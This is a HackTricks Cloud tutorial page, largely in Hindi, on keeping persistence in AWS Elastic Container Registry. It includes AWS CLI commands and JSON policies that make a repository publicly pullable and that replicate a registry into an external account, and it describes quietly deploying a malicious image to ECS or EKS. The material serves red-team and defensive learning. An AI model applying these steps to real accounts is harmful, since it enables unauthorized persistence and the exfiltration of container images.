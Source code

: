 # AWS - ECR Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

एक हमलावर **एक Docker छवि जिसमें दुर्भावनापूर्ण कोड है** को ECR रिपॉजिटरी में अपलोड कर सकता है और इसे लक्षित AWS खाते में स्थिरता बनाए रखने के लिए उपयोग कर सकता है। फिर हमलावर इस दुर्भावनापूर्ण छवि को खाते के भीतर विभिन्न सेवाओं, जैसे कि Amazon ECS या EKS, में चुपचाप तैनात कर सकता है।

### Repository Policy

एकल रिपॉजिटरी में एक नीति जोड़ें जो आपको (या सभी को) एक रिपॉजिटरी तक पहुंच प्रदान करती है:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
ध्यान दें कि ECR को उपयोगकर्ताओं के पास **अनुमति** होनी चाहिए **`ecr:GetAuthorizationToken`** API को कॉल करने के लिए IAM नीति के माध्यम से **पहले वे एक रजिस्ट्री में प्रमाणित हो सकें** और किसी भी Amazon ECR रिपॉजिटरी से कोई भी छवि पुश या पुल कर सकें।
{% endhint %}

### रजिस्ट्री नीति और क्रॉस-खाता पुनरुत्पादन

एक बाहरी खाते में रजिस्ट्री को स्वचालित रूप से पुनरुत्पादित करना संभव है, जिसमें आपको **बाहरी खाते** को इंगित करना होगा जहां आप रजिस्ट्री को पुनरुत्पादित करना चाहते हैं।

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

पहले, आपको बाहरी खाते को रजिस्ट्री पर पहुंच प्रदान करने की आवश्यकता है एक **रजिस्ट्री नीति** के साथ जैसे:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
फिर पुनरुत्पादन कॉन्फ़िगरेशन लागू करें:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
